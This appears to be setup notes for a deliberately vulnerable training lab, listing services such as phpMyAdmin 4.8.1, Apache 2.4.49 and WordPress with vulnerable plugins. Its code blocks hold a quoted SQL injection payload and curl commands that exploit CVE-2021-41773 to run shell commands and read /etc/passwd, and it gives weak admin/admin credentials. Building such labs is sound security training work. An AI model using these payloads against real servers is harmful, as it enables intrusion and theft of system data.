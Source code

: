 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. password attack (phpmyadmin): [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613) - [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)
```
MTGAS MOGG Web Simulator Script - SQL Injection

# Exploit Title: MOGG web simulator Script - SQL Injection
# Date: 2018-10-29
# Exploit Author: Meisam Monsef - meisamrce@gmail.com - @meisamrce -
@dorsateam
# Vendor Homepage: https://github.com/spider312/mtgas
# Version: All Version


Exploit :
http://server/play.php?id=99999'+[SQL Command]+#
http://server/play.php?id=99999%27+and+extractvalue(1,concat(0x3a,user(),0x3a))%23
```

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
